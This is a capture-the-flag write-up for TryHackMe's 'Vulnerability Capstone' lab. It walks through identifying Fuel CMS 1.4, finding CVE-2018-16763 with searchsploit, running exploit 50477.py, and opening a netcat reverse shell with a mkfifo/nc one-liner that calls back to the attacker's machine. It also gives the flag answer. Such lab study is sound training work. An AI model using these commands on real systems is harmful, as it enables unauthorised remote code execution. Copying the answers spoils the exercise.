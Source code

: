 # [Vulnerability Capstone](https://tryhackme.com/r/room/vulnerabilitycapstone)

![VulnerabilityCapstone](./images/VulnerabilityCapstone.png)

[Vulnerability Capstone](https://tryhackme.com/r/room/vulnerabilitycapstone) is listed as an easy room. Apply the knowledge gained throughout the Vulnerability Module in this challenge room. An overview of what we’ll be using is listed here:  

* Browser
* Searchsploit
* Script Exploit

## Task 1 - Introduction

![task1-logo](./images/task1-logo.png)

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module. 

Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public. 

It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.

### Answer the questions below

* Let's get hacking

## Task 2 - Exploit the Machine (Flag Submission)

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is **recommended** that you use the TryHackMe AttackBox to complete this room.

Allow **five minutes** to pass before attempting to attack the vulnerable machine **MACHINE_IP**

### Answer the questions below

* Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.

	![task1-IP](./images/task1-IP.png)

* What is the name of the application running on the vulnerable machine?

	`Fuel CMS`

	![task2-cms](./images/task2-cms.png)

* What is the version number of this application?
	
	`1.4`

* What is the number of the CVE that allows an attacker to remotely execute code on this application?

	Format: CVE-XXXX-XXXXX

	`CVE-2018-16763`

	```
	searchsploit -j 'Fuel CMS' | grep CVE
	```

	![task2-cve](./images/task2-cve.png)

* Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

	Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

	Download script from `searchsploit`

	```
	searchsploit -m 50477.py
	```

	![task2-download](./images/task2-download.png)

* What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

	`THM{ACKME_BLOG_HACKED}`

	* Create listener on attacker machine
	
		```
		nc -nvlp 8080
		```

		![task2-nc](./images/task2-nc.png)

	* Run script exploit `50477.py`
	
		```
		python3 50477.py -u http://10.10.21.183/
		```

		![task2-run](./images/task2-run.png)

	* Type script command to get reverse shell
	
		```
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.95.148 8080 >/tmp/f
		```

	* Get the shell and flag
	
		![task2-flag](./images/task2-flag.png)